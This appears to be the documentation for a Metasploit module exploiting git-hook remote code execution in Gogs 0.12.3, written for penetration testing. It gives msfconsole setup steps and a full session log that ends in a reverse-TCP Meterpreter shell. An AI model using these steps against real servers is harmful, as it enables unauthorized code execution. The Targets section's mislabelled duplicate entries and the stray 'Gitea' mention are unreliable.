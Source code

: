 ## Vulnerable Application

### Description
This module leverages an insecure setting to get remote code execution on the
target OS in the context of the user running Gogs. This is possible when the
current user is allowed to create `git hooks`, which is the default for
administrative users. For non-administrative users, the permission needs to be
specifically granted by an administrator.

To achieve code execution, the module authenticates to the Gogs web interface,
creates a temporary repository, sets a `post-receive` git hook with the payload
and creates a dummy file in the repository. This last action will trigger the
git hook and execute the payload. Everything is done through the web interface.

No mitigation has been implemented so far (latest stable version is 0.12.3).

This module has been tested successfully against version 0.12.3 on Docker.
Windows version could not be tested since the git hook feature seems to be
broken.

### Setup

Follow the installation steps:
- With Docker: https://github.com/gogs/gogs/tree/main/docker
- From binary: https://gogs.io/docs/installation/install_from_binary
- From package: https://gogs.io/docs/installation/install_from_packages

## Verification Steps

1. Install the application (follow [Setup](#setup))
1. Start msfconsole
1. Do: `use multi/http/gogs_git_hooks_rce`
1. Do: `set USERNAME <username>`
1. Do: `set PASSWORD <password>`
1. Do: `set rhosts <ip>`
1. Do: `set rport <port>`
1. Do: `set lhost <ip>`
1. Do: `set target <target #>`
1. Do: `run`
1. You should get session.

## Targets

### 0 (Unix Command)

This executes a Unix command.

### 1 (Linux Dropper)

This uses a Linux dropper to execute code.

### 0 (Unix Command)

This executes a Windows command.

### 1 (Linux Dropper)

This uses a Windows dropper to execute code.

## Options

### TARGETURI

The base path of the Gitea application, which is set to `/` by default.

### USERNAME

The username to authenticate with.

### PASSWORD

The password to authenticate with.

## Scenarios

### Gogs 0.12.3 on Docker

```
msf6 > use multi/http/gogs_git_hooks_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/gogs_git_hooks_rce) > set USERNAME msfuser
USERNAME => msfuser
msf6 exploit(multi/http/gogs_git_hooks_rce) > set PASSWORD Msf!23
PASSWORD => Msf!23
msf6 exploit(multi/http/gogs_git_hooks_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/http/gogs_git_hooks_rce) > set RPORT 10080
RPORT => 10080
msf6 exploit(multi/http/gogs_git_hooks_rce) > set LHOST 192.168.1.75
LHOST => 192.168.1.75
msf6 exploit(multi/http/gogs_git_hooks_rce) > options

Module options (exploit/multi/http/gogs_git_hooks_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   Msf!23           yes       Password to use
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10080            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   msfuser          yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.75     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(multi/http/gogs_git_hooks_rce) > set verbose true
verbose => true
msf6 exploit(multi/http/gogs_git_hooks_rce) > run

[*] Started reverse TCP handler on 192.168.1.75:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Gogs found
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Authenticate with "msfuser/Msf!23"
[*] Get "csrf" value
[+] csrf=RDAhjRw_I0Uf85CuY4_SBFjbO1A6MTYxNzIwMDUzNjMzNjg2NjEwMA
[+] Logged in
[*] Create repository "Sonsing_Duobam"
[*] Get "csrf" and "user_id" values
[+] csrf=sOMJHrFMKnfcrle5apA9CzNJ4DQ6MTYxNzIwMDUzNzMwMDk0MTgwMA
[+] user_id=1
[+] Repository created
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAA...<redacted>
[*] Executing command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAA...<redacted>
[*] Setup post-receive hook with command
[*] Get "csrf" value
[+] csrf=sOMJHrFMKnfcrle5apA9CzNJ4DQ6MTYxNzIwMDUzNzMwMDk0MTgwMA
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
[*] Get "csrf" and "last_commit" values
[+] csrf=sOMJHrFMKnfcrle5apA9CzNJ4DQ6MTYxNzIwMDUzNzMwMDk0MTgwMA
[+] last_commit=f8bbde6c14b8bbe92edfc802812a24be30e3fdbb
[*] qJcA.txt created
[+] File created, shell incoming...
[*] Command Stager progress - 100.00% done (833/833 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3008420 bytes) to 192.168.1.75
[*] Meterpreter session 1 opened (192.168.1.75:4444 -> 192.168.1.75:61502) at 2021-03-31 16:22:20 +0200
[*] Cleaning up
[*] Get "csrf" value
[+] csrf=sOMJHrFMKnfcrle5apA9CzNJ4DQ6MTYxNzIwMDUzNzMwMDk0MTgwMA
[*] Repository Sonsing_Duobam deleted.

meterpreter > getuid
Server username: git @ 4f1193a0be31 (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           :  (Linux 4.19.121-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
